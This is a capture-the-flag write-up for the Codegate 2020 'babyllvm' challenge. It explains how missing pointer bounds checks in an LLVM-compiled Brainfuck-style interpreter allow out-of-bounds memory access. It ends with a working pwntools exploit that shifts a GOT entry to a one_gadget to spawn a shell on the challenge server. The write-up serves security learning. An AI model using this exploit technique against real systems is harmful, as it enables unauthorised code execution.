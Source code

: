```yaml
---
title: 'babyllvm'
---
```


I recently competed in [Codegate CTF 2020](https://ctftime.org/event/938) under the junior category. This was the one of the more interesting challenges that I solved.

### Summary

This was more of a reversing problem than pwn. The llvm served only to obfuscated the code, as opposed to raising any challenges itself. 

### Analysis

Three observations are needed to solve the problem. 

1. The data pointer can be out of bounds after a codeblock finishes executing.
2. During branched execution, the security checks don't ever get called. 3.  
3. During linear execution, ptrBoundCheck won't get called if you don't adjust rel_pos. 

<!--more-->


#### Observation 1

During linear execution, the opcode 1 lacks checks on the data pointer location. 

```python
elif op == 1:
  if imm != 0:
    ori = builder.ptrtoint(builder.load(dptr_ptr), i64)
    incr = llvmIR.Constant(i64, imm)
    new = builder.inttoptr(builder.add(ori, incr), i8_ptr)
    builder.store(new, dptr_ptr)
    rel_pos += imm
```

This directly stores the value of `dptr + imm` into `dptr`. Crucially, this means that the data pointer could point to out of bounds code after execution of a codeblock. 

#### Observation 2

Note that after one branching, the code is generated as 
```python
br1b = self.br1.codegen(module, (0, 0))
br2b = self.br2.codegen(module, (0, 0))
```

This passes in `(0, 0)` as the whitelist. If `br1` has additional branching, the check will never evaluate to true because whitelist will always be `(0, 0)` for non-linear code pieces.

```python
if not is_safe(0, whitelist):
  ...
  builder.call(ptrBoundCheck, [start, bound, cur])
```

#### Observation 3

As before, recall that the whitelist is set as `(0, 0)` by default. 

If `rel_pos` is equal to zero, then the security checks will never be called. 
```python
if not is_safe(rel_pos, whitelist_cpy):
  ...
  builder.call(ptrBoundCheck, [start, bound, cur])
```

If the data pointer points to out of bounds memory at the start of execution of the codeblock, we will be able to execute instructions on it!

#### Exploit

Combining these three observations, we can easily create an exploit. For example, consider the following block of code. 

```python
builder.position_at_end(resolveRight(headb)) # data_ptr = -1
if not is_safe(0, whitelist): # Never gets called
  ...
...
builder.cbranch(cond, resolveLeft(br2b), resolveLeft(br1b)) # do something with memory[-1]
```

For example, you could get a leak with `<<<[-.]`. 
```
head: <<<
left: -.
right: [Empty]
```

This would shift the data pointer 3 bytes left, and then repeatedly subtract and print until the data pointer becomes zero. 

We don't actually need a leak however, as all of our operations are relative. Because only partial relro is enabled, we can simply shift a GOT entry in `runtime.so` to a one_gadget. 

### Final Exploit

The final exploit is actually quite short. Most of the work was done constructing the three observations, hence it being more of a reversing problem than pwn. 

```python
from pwn import *

if "--remote" in sys.argv:
  p = remote("58.229.240.181", 7777)
else:
  #p = process(["python3", "main.py"])
  p = remote("localhost", 7777)

off = 0x40

p.sendlineafter(">>>", "[]" + "<" * 0x78 + "[" + "+" * (0x8c - 0x40) + ">" * off + "]"
  + "<" * (off - 1) + "[" + "+" * (0xc3 - 0x21) + ">" * off + "]"
  + "<" * (off - 1) + "[" + "-" * (0x44 - 0x43) + ">" * off + "]"
  )

p.sendlineafter(">>>", ".")


p.interactive()
```
